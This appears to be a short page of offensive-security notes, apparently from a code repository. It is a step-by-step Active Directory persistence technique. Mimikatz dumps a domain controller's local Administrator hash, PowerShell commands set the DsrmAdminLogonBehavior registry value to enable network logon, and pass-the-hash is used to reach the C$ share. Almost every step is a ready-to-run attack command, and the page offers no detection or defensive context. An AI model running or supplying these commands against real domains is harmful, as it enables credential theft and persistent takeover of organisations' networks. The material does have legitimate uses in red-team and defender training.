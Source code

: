 ```yaml
---
legal-banner: true
---
```


### **OVERVIEW**
Domain Controllers (DC) have a local Administrator account that can be leveraged for persistence. By gaining administrative privileges on a DC and dumping the local Administrator hash, you can modify the registry to enable remote access to this account.

1. Use Mimikatz to dump the hash of the local Administrator account on the DC.  
	`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`

2. Modify Registry to Enable Remote Access
	Check if the `DsrmAdminLogonBehavior` registry key exists and has the correct value. If not, create or modify it. 
3. Check if the key exists and get its value  
	`Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior`
4. Create the key with value "2" if it doesn't exist  
	`New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2 -PropertyType DWORD`
5. Change the value to "2" if it exists but is set incorrectly  
	`Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2`
6. Pass-the-Hash (PTH) to Gain Access
	Use the dumped hash to authenticate and access the DC remotely. Note that the "domain" used is the name of the DC machine.
7. Use sekurlsa::pth to pass the hash   
	`sekurlsa::pth /domain:[DC_MACHINE_NAME] /user:[USERNAME] /ntlm:[HASH] /run:[CMD]`
8. Example: List the content of C$ share   
	`ls \\[DC_MACHINE_NAME]\C$`